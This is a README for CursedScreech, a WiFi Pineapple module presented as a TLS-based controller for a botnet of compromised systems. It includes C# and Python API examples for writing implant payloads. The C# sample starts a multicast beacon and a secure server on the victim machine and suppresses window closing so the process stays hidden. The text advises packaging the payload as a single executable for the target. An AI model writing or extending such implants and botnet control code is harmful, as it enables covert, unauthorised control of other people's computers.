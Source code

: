 # CursedScreech

A mass communicator module for the WiFi Pineapple that utilizes TLS to control a botnet of compromised systems.  Included is a C# API (with documentation) to write payloads that can communicate with CursedScreech.  This module is still in development but will hopefully be ready for it's first full release within the next couple of weeks.

Order of work left on this module:

1. ~~Finish C# API~~
2. ~~Write equivalent Python library~~
3. Put finishing touches on web interface
4. Test, Test, Test
5. Finish documentation and video guide
7. Release on Module Manager


# APIs
I recommend using C# over Python to build your payload.  Both APIs are really simple to use but using C# will allow you to create a self-contained executable along with required keys/certificates.  Writing your payload in Python will require you to freeze your code and it can be difficult, if not impossible, to include all required files in a single executable.  If you can't make a single executable you will have to find a way to move the whole dist directory to the target machine.

### C# API Example
```
using System;
using System.Drawing;
using System.Windows.Forms;
using CursedScreech;

namespace Payload
{
    public partial class Form1 : Form {

        public Form1() {
            InitializeComponent();

            CursedScreech.CursedScreech cs = new CursedScreech.CursedScreech();
            cs.startMulticaster("231.253.78.29", 19578);
            cs.setRemoteCertificateSerial("EF-BE-AD-DE");
            cs.setRemoteCertificateHash("1234567890ABCDEF");
            cs.startSecureServerThread("Payload.Payload.pfx", "#$My$ecuR3P4ssw*rd&");

        }
        private void Form1_FormClosing(object sender, FormClosingEventArgs e) {
            e.Cancel = true;
            this.Hide();
        }
    }
}

```


### Python API Example
```
from CursedScreech import CursedScreech

cs = CursedScreech("Network Client")
cs.startMulticaster("231.253.78.29", 19578)
cs.setRemoteCertificateSerial("ABCDEF1234567890")
cs.startSecureServerThread("payload.pem", "payload.cer", "cursedscreech.cer")
```
